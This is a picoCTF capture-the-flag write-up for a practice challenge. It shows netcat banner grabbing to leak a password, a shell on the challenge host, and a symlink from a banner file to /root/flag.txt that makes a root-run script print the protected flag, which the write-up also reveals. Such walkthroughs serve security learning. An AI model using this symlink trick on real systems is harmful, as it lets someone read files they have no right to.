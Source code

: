 # dont-you-love-banners

AUTHOR: LOIC SHEMA / SYREAL

#### Description
___
Can you abuse the banner?

Additional details will be available after launching your [challenge instance](https://play.picoctf.org/practice/challenge/437?category=5&originalEvent=73&page=1).

The server has been leaking some crucial information on `tethys.picoctf.net 58916`. 

Use the leaked information to get to the server.

To connect to the running application use `nc tethys.picoctf.net 52095`. 

From the above information abuse the machine and find the flag in the /root directory.

#### Soln
___
netcat the leaked info:
```
> nc tethys.picoctf.net 58916

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

go to the server and answer the questions:
```
> nc tethys.picoctf.net 51016

*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234

What is the top cyber security conference in the world?
defcon

the first hacker ever was known for phreaking(making free phone calls), who was it?
john draper
```

navigate to the root folder
```
player@challenge:~$ cd ../..

player@challenge:/$ ls
ls
bin   challenge  etc   lib    media  opt   root  sbin  sys  usr
boot  dev        home  lib64  mnt    proc  run   srv   tmp  var

player@challenge:/$ cd root

player@challenge:/root$ ls
flag.txt  script.py
```

accessing the flag:
```
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
```

checking script.py:
```
layer@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```


we can abuse the banner into prompting it to display the value of flag.txt in which we don't have access in. Use symlink by removing the original banner and link the new one with the flag:
```
player@challenge:/root$ rm /home/player/banner

player@challenge:/root$ ln -s /root/flag.txt /home/player/banner

```

relaunch the server:
```
> nc tethys.picoctf.net 51016
> 
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```


